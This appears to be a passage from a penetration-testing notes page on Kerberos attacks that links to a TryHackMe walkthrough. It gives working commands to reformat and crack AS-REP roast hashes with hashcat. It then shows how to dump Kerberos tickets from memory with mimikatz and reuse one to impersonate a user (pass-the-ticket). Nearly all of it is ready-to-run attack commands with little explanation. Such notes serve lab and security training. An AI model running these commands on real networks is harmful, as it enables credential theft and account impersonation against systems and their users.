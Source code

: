 **Kali**

Transfer the hash from the target machine over to kali and put the hash into a txt file. Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User... .The below command does the replace and clean up the output so hashcat can recognize the hashes.

```
cat hashes.txt | sed 's/[[:space:]]//g' |tr -d '\n'| sed 's/$krb5asrep/\n&/g' | sed  's/$krb5asrep/$krb5asrep$23/g'  > hash.txt
hashcat -m 18200 hash.txt Pass.txt
```

Crack hashes

```
hashcat -m 18200 hash.txt Pass.txt --show
```

## Pass the Ticket w/ mimikatz

**Example**

[#pass-the-ticket-w-mimikatz](../../walkthroughs/tryhackme/attacking-kerberos.md#pass-the-ticket-w-mimikatz "mention")

### Prepare Mimikatz & Dump Tickets

**Victim**

```
mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
sekurlsa::tickets /export
```

### Pass the Ticket w/ Mimikatz

Run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket. Copy paste one of the kirbi tickets given from the command sekurlsa::tickets /export

**Victim - Mimikatz**

```
kerberos::ptt $TICKET.kirbi
```

Here were just verifying that we successfully impersonated the ticket by listing our cached ticket.

**Victim**

```
klist
```
